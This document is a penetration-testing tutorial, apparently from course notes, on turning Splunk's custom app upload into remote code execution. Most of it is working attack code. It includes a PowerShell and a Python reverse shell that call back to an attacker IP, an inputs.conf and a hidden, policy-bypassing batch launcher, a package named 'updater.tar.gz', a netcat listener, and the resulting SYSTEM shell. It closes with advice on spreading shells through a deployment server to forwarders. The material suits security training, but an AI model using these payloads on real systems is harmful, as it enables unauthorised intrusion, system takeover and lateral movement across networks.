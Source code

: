 # Attacking Splunk

As discussed in the previous section, we can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts. From the Nmap discovery scan, we noticed that our target is a Windows server. Since Splunk comes with Python installed, we can create a custom Splunk application that gives us remote code execution using Python or a PowerShell script.

***

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```shell-session
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/search/apps/local</p></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, we got a shell back as `NT AUTHORTY\SYSTEM`. If this were a real-world assessment, we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was our initial foothold in the domain environment, we could use this access to begin enumerating the Active Directory domain.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
